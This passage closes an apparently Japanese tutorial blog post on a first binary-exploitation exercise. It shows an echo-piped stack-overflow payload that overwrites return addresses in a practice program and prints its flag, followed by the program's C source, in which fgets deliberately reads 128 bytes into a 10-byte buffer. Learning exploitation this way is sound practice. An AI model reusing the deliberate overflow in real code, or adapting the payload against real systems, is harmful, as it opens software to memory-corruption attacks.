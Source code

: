最終的な攻撃パターンは以下のようになります。


```
# $ echo -e 'AAAAAAAAAAAAAA\x00\x70\x55\x56AAAA\x40\x54\x55\x56\x26\x56\x55\x56\x20\x70\x55\x56' | ./a.out
buffer: 0x56557020
flag:first_pwnbuffer: 0x56557020
zsh: done                echo -en  |
zsh: segmentation fault  ./a.out
```

表示されましたね！

実行ファイルの元のプログラムを貼っておきます。

```c
#include <stdio.h>
#include <string.h>

char buffer[] = "flag:first_pwn";

void input() {
  char local[10];
  fgets(local, 128, stdin);
}

int main() {
  printf("buffer: 0x%x\n", buffer);
  input();

  return 0;
}
```

# 最後に

簡単な例題のはずがえらい時間がかかりました。pwnは慣れが必要なので数をこなす必要があるんでしょうね。

あと今回はechoでエクスプロイトコードを履いていますがいちいちこれを書くのは面倒でしょう。
pwntoolというpythonのライブラリを使うと結構簡単になります。

